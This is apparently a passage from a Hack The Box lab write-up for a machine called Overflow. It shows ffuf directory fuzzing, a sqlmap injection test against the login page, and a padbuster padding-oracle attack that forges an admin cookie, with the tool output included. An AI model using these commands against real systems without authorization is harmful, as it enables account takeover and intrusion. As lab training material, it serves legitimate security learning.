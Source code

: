 ```bash
# /mytias.fcgi          (Status: 403) [Size: 277]
# /test.fcgi            (Status: 403) [Size: 277]
ffuf -c -u http://10.10.11.119/config/FUZZ -w /usr/share/wordlists/discovery/raft-medium-files.txt -o discovery/files.config.txt -b 'auth=c%2FyPUOLI4eC988OUyd2bd3p8RAPPCvYS'
# auth.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 119ms]
# db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 121ms]
# users.php               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 115ms]
```

### Web Browsing

Can create an account:

![][user-profile]

The blog talks about several attacks:

![][blog-posts]

### Testing for SQLi

Injection fails on the login page:

```bash
sqlmap -v 2 -u http://10.10.11.119/login.php \
    --dbms mysql --answer="redirect=N" --data "username=admin&password=admin" \
    --level 5 --risk 3 --time-sec 2 --batch --proxy=http://127.0.0.1:8080
```

## Admin on the Web Console

Let's try out the attacks listed on the blog; first the SQL truncation:

```bash
padbuster http://overflow.htb/login.php \
    $'Digvrbacih8Avya5Chq81UWsTdtkIcBn6Xj5OwSbvGnOR6PnSlF8szzRhchPVSmpiH24ti67Q8QufWLBokvW+Q==' 8 \
    -cookie $'auth=Digvrbacih8Avya5Chq81UWsTdtkIcBn6Xj5OwSbvGnOR6PnSlF8szzRhchPVSmpiH24ti67Q8QufWLBokvW+Q==' \
    -plaintext 'username=admin'
# Block 2 Results:
# [+] New Cipher Text (HEX): 770c1a4ebac96c3f
# [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

# Block 1 Results:
# [+] New Cipher Text (HEX): 039e1a5a3596aa3f
# [+] Intermediate Bytes (HEX): 76ed7f285bf7c75a

# [+] Encrypted value is: A54aWjWWqj93DBpOuslsPwAAAAAAAAAA
```

This cookie gives admin access to the web console. A new item appears in the
menu, pointing to `http://10.10.11.119/admin_cms_panel/admin/login.php`:


[author-profile]: https://app.hackthebox.com/users/172213
[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png